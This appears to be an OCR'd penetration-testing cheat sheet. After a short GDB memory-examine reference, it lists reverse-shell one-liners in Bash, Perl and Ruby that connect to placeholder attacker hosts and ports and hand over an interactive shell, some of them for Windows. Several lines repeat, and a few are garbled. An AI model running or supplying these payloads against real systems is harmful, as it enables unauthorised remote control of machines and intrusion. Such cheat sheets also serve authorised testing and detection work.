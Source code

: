 
# Display values of specific memory locations
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
{% endhighlight %}

### BASH Reverse Shell
{% highlight bash %}
bash -i >& /dev/tcp/X.X.X.X/443 0>&1
 
exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0
 
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
 
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
 
exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444
 
cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done
 
/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
{% endhighlight %}

### PERL Reverse Shell
{% highlight bash %}
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# for win platform
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
{% endhighlight %}

### RUBY Reverse Shell
{% highlight bash %}
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
 
# for win platform
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}
